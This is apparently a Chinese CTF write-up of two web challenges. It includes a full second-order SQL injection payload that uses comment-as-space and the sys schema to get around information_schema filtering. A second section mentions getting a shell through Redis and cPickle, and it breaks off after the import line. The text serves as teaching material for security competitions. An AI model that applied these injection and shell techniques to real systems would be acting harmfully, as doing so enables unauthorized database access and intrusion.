




web1
二次注入，在文章发表广告名存在注入，过滤了or，空格，不能用order by查字段，可以用group by查字段，也不能用information_schema这个库查询，所以通过其他方式查询表，无列名注入，附一个链接 聊一聊bypass information_schema，下面直接给出payload。
1 | -1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_columns/**/where/**/table_schema=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 //查表 |
下面给些图理解




web2
登录源码提示redis，redis-cli -h host -p 6379可以链接redis库，弹个shell，找到flag。
1 | import cPickle |